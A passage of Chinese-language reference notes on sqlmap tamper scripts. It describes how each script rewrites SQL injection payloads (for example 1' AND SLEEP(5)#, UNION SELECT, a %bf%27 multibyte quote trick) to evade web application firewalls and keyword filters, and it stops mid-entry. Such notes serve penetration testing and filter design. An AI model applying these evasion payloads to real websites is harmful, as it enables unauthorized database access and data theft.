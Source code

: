 #### **equaltolike.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5\
作用：将`=`替换为`LIKE`\
使用脚本前：`tamper('SELECT * FROM users WHERE id=1')`\
使用脚本后：`SELECT * FROM users WHERE id LIKE 1`

#### **bluecoat.py**

适用数据库：Blue Coat SGOS\
测试通过数据库：MySQL 5.1,、SGOS\
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`\
使用脚本前：`tamper('SELECT id FROM users where id = 1')`\
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### **unmagicquotes.py**

适用数据库：ALL\
作用：用一个多字节组合`%bf%27`和末尾通用注释一起替换空格\
使用脚本前：`tamper("1' AND 1=1")`\
使用脚本后：`1%bf%27 AND 1=1--`

### 其他脚本

#### **base64encode.py**

适用数据库：ALL\
作用：替换为base64编码\
使用脚本前：`tamper("1' AND SLEEP(5)#")`\
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

#### **nonrecursivereplacement.py**

适用数据库：ALL\
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）\
使用脚本前：`tamper('1 UNION SELECT 2--')`\
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

#### **unionalltounion.py**

适用数据库：ALL\
作用：将`union allselect` 替换为`unionselect`\
使用脚本前：`tamper('-1 UNION ALL SELECT')`\
使用脚本后：`-1 UNION SELECT`

#### **securesphere.py**

适用数据库：ALL\
作用：追加特定的字符串\
使用脚本前：`tamper('1 AND 1=1')`\
使用脚本后：`1 AND 1=1 and '0having'='0having'`

#### **sp\_password.py**
